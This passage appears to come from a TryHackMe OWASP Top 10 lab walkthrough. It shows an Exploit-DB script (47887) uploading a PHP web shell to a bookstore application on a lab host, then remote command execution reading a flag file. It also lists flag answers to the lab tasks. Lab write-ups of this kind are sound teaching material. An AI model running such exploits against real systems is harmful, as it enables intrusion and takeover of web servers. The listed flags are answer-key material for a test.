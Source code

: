 - Google > CSE bookstore
	- https://www.exploit-db.com/exploits/47887
```
┌──(kali㉿kali)-[~/tryhackme/owasptopten2021]
└─$ python3 47887.py         
usage: 47887.py [-h] url
47887.py: error: the following arguments are required: url
                                                                                         
┌──(kali㉿kali)-[~/tryhackme/owasptopten2021]
└─$ python3 47887.py http://10.10.4.17:84/
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.4.17:84/bootstrap/img/4G9ZhIbRAR.php
> Example command usage: http://10.10.4.17:84/bootstrap/img/4G9ZhIbRAR.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ id
uid=100(apache) gid=101(apache) groups=82(www-data),101(apache),101(apache)

RCE $ ls
4G9ZhIbRAR.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
pro_asp4.jpg
pro_js.jpg
unnamed.png
web_app_dev.jpg

RCE $ cat /opt/flag.txt
THM{But_1ts_n0t_my_f4ult!}

RCE $ 

```

## Task 16 - 7. Identification and Authentication Failures

## Task 17 - Identification and Authentication Failures Practical

#### What is the flag that you found in darren's account?

	fe86079416a21a3c99937fea8874b667
